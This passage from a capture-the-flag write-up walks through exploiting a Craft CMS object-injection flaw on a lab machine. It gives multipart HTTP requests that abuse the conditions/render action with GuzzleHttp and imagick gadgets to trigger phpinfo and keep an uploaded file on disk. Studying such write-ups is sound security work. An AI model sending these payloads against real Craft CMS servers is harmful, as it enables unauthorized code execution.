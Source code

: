 ```

POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
Content-Length: 442
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="action"

conditions/render
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="test[userCondition]"

craft\elements\conditions\users\UserCondition
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="config"

{"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream","__construct()": [{"close":null}],"_fn_close":"phpinfo"}}
--0xdf0xdf0xdf0xdf

```

Sending this still returns the `phpinfo` output. I’ll add another block with a fake file:

```

Content-Disposition: form-data; name="fakefile"; filename="0xdf.txt"
Content-Type: text/plain

This is a test
--0xdf0xdf0xdf0xdf

```

Sending this still shows `phpinfo`, and the file is saved on disk for a fraction of a second, but then deleted.

The trick is to have ImageMagick crash before the file is cleaned up. I’ll replace the `GuzzleHttp` invocation with a reference to imagick and have it try to open a non-MSL file as an MSL file:

```

POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
Content-Length: 545
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="action"

conditions/render
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="test[userCondition]"

craft\elements\conditions\users\UserCondition
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="config"

{"name":"test[userCondition]","as xyz":{"class":"imagick","__construct()":{"files":"msl:/etc/hostname"}}}
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="fakefile"; filename="0xdf.txt"
Content-Type: text/plain

This is a test
```